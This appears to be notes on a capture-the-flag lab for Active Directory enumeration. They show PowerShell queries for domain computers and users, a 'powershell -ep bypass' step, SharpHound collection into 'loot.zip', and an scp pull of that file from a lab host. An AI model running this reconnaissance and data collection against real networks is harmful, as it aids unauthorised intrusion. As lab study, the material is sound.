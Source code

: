 ## Q2
Find operating systems on the network
```powershell
Get-ADComputer -Filter * -Properties * | Select-Object OperatingSystem
```
Alternative (provided by THM room)
```powershell
Get-NetComputer -fulldata | select operatingsystem
```
## Q3
Hidden Flag in the Users
```powershell
Get-ADUser -Filter *
```
### Enumeration w/ Bloodhound
## ssh to windows server
This is just handy to have for file transfer with scp

Start neo4j/Bloodhound
```bash
neo4j console
```

Look for local host url
login with defaul creds neo4j/neo4j on first login change password

## Getting Loot w/ SharpHound
Start powershell and bypass execution policy

```powershell
powershell -ep bypass
```

run script in Downloads (SharpHoundps1)

```powershell
cd Downloads
. .\SharpHound.ps1
```

collect info
```powershell
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```
Output will be saved to current directory in a zip file

Use SCP to transfer file to computer
```bash
scp Administrator@10.10.53.146:C:/Users/Administrator/Downloads/loot.zip .
```
(notice the slashes)

## Mapping the network /w Bloodhound
